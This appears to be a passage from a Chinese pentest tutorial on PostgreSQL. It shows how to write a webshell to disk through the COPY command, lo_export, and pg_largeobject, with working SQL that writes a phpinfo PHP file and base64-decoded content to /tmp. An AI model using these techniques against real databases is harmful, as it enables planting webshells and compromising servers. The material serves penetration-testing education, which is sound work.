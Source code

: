 **利用条件**
- 拥有网站路径写入权限
- 知道网站绝对路径

**方法1 COPY**

COPY 命令可以用于表和文件之间交换数据，这里可以用它写 webshell

```sql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```

![](../../img/postgresql-pentest/1.png)

![](../../img/postgresql-pentest/2.png)

也可以 base64 一下
```sql
COPY (select convert_from(decode('ZmZmZmZmZmYweA==','base64'),'utf-8')) to '/tmp/success.txt';
```

![](../../img/postgresql-pentest/16.png)

![](../../img/postgresql-pentest/17.png)

**方法2 lo_export**

lo_export 采用大对象 OID 和路径，将文件写入路径。

```sql
select lo_from_bytea(12349,'ffffffff0x');
SELECT lo_export(12349, '/tmp/ffffffff0x.txt');

-- base64 的形式
select lo_from_bytea(12350,decode('ZmZmZmZmZmYweA==','base64'));
SELECT lo_export(12350, '/tmp/ffffffff0x.txt');
```

![](../../img/postgresql-pentest/36.png)

![](../../img/postgresql-pentest/37.png)

**方法3 lo_export + pg_largeobject**

```sql
-- 记下生成的lo_creat ID
select lo_creat(-1);

-- 替换 24577 为生成的lo_creat ID
INSERT INTO pg_largeobject(loid, pageno, data) values (24577, 0, decode('ZmZmZmZmZmYweA==', 'base64'));
select lo_export(24577, '/tmp/success.txt');
```

![](../../img/postgresql-pentest/31.png)
